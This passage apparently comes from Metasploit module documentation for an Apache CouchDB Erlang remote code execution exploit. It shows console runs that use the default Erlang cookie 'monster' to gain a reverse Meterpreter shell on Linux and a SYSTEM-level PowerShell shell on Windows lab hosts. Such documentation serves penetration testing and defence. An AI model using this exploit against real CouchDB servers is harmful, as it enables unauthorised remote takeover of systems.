 ```
Server username: couchdb
meterpreter > sysinfo
Computer     : 172.16.199.164
OS           : Ubuntu 20.04 (Linux 5.15.0-50-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
```

### Windows Command, Windows 10, Apache CouchDB 2.3.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
[*] Powershell session session 11 opened (172.16.199.1:4444 -> 172.16.199.137:49762) at 2022-10-17 18:44:16 -0400


Shell Banner:
Windows PowerShell running as user DESKTOP-8ATHH6O$ on DESKTOP-8ATHH6O
Copyright (C) Microsoft Corporation. All rights reserved.
-----

PS C:\CouchDB> whoami
nt authority\system
PS C:\CouchDB> systeminfo

Host Name:                 DESKTOP-8ATHH6O
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042
...
PS C:\CouchDB>
```

### Windows Dropper, Windows 10, Apache CouchDB 2.3.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
...
```